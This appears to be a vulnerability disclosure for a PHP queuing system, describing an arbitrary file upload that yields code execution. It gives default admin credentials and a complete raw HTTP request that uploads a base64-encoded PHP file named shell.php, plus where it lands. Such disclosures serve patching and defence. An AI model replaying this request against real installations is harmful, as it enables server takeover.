 # Dynamic Transaction Queuing System v1.0 by oretnom23 has arbitrary code execution (RCE)

BUG_Author: ctg503 team

vendors: https://www.sourcecodester.com/php/14479/dynamic-transaction-queuing-system-using-phpmysql-source-code.html

The program is built using the xmapp-php8.1 version

Login account: admin/admin123 (Super Admin account)

Vulnerability url: ip/queuing/admin/ajax.php?action=save_uploads

Loophole location: Dynamic Transaction Queuing System's "/queuing/admin/ajax.php?action=save_uploads" file exists arbitrary file upload (RCE)

Request package for file upload：

```sql
POST /queuing/admin/ajax.php?action=save_uploads HTTP/1.1
Host: 192.168.1.88
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64; rv:46.0) Gecko/20100101 Firefox/46.0
Accept: */*
Accept-Language: zh-CN,zh;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
DNT: 1
X-Requested-With: XMLHttpRequest
Referer: http://192.168.1.88/queuing/admin/index.php?page=uploads
Content-Length: 396
Content-Type: multipart/form-data; boundary=---------------------------208633099825036
Cookie: PHPSESSID=t4551shae3529036q2g0j8luub
Connection: close

-----------------------------208633099825036
Content-Disposition: form-data; name="id"


-----------------------------208633099825036
Content-Disposition: form-data; name="img[]"

data:image/php;base64,PD9waHAgcGhwaW5mbygpOyA/Pg==
-----------------------------208633099825036
Content-Disposition: form-data; name="imgName[]"

shell.php
-----------------------------208633099825036--
```

The files will be uploaded to this directory \queuing\admin\assets\uploads\
![image](https://user-images.githubusercontent.com/54017627/199705856-8043d6f4-9fdb-460b-952d-c4231a555b4e.png)


We visited the directory of the file in the browser and found that the code had been executed
![image](https://user-images.githubusercontent.com/54017627/199705939-55700407-abaf-4d99-998e-8d9625b89beb.png)

